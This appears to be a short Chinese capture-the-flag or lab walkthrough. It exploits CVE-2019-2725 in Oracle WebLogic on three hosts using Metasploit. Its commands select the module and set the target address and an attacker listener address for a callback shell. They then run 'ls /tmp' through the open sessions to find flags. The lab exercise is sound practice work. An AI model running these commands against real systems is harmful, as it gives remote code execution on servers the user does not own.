 ![](img/404.png)

使用三台主机存在的cve-2019-2725漏洞
```
search cve-2019-2725
use 0
```
![](img/利用2725.png)
```
show options
set RHOSTS 192.170.84.2
set lhost 192.168.56.113
run -j
# 查看flag
sessions -c "ls /tmp" -i 3,4,5
```
